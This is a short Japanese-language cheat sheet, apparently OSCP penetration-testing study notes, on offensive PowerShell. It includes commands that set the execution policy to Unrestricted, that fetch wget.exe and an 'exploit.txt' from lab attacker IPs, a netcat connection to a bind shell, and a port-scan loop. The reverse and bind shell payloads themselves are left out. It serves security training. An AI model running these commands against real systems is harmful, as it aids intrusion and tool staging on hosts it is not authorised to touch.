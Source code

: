 # PowerShell

### 実行権限

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```



### ファイル転送

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://192.168.119.127:5555/exploit.txt" -OutFile "exploit.txt")
```



##### ダウンロードせずに実行する場合は・・・

AVに検知されるので画像

![image-20230105081915662](img/powershell/image-20230105081915662.png)



### リバースシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084237435](img/powershell/image-20221226084237435.png)



### バインドシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084638580](img/powershell/image-20221226084638580.png)

* netcatでバインドシェルに接続する

  ```
  nc -nv 10.11.0.22 443
  ```

  

### チェックサム

```powershell
Get-FileHash -Algorithm "SHA256" -Path "C:\Users\student\exploit.txt"

$hash1 = ""
$hash2 = ""
$hash1 -eq $hash2
```



### ポートスキャン

```
for($i=1; $i -le 140; $i++){
	Test-NetConnection 172.50.3.1 -Port $i
}
```

